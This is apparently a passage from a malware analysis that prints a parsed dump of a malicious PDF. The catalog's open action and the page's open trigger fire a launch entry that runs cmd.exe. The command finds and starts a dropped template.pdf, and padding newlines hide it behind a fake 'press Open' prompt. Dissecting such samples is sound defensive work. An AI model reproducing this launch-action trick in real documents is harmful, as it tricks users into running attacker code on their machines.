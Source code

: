     /Win
      <<
        /F (cmd.exe)
        /D '(c:\\\\windows\\\\system32)'
        /P '(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\\\template.pdf" (cd "Desktop"))&(if exist "My Documents\\\\template.pdf" (cd "My Documents"))&(if exist "Documents\\\\template.pdf" (cd "Documents"))&(if exist "Escritorio\\\\template.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\\\template.pdf" (cd "Mis Documentos"))&(start template.pdf)\n\n\n\n\n\n\n\n\n\nTo view the encrypted content please tick the "Do not show this message again" box and press Open.)'
      >>
  >>


obj 1 0
 Type: /Catalog
 Referencing: 2 0 R, 5 0 R, 9 0 R

  <<
    /Pages 2 0 R
    /Names 5 0 R
    /OpenAction 9 0 R
    /Type /Catalog
  >>


obj 3 0
 Type: /Page
 Referencing: 4 0 R, 2 0 R, 10 0 R

  <<
    /Contents 4 0 R
    /Parent 2 0 R
    /Resources
      <<
        /Font
          <<
            /F1
              <<
                /Type /Font
                /Subtype /Type1
                /BaseFont /Helvetica
                /Name /F1
              >>
          >>
      >>
    /Type /Page
    /MediaBox [ 0 0 795 842 ]
    /AA
      <<
        /O 10 0 R
      >>
  >>


xref

trailer
  <<
    /Size 11
    /Prev 429
    /Root 1 0 R
    /Info 0 0 R
  >>

startxref 45968

PDF Comment '%%EOF\r\n'
{% endhighlight %}
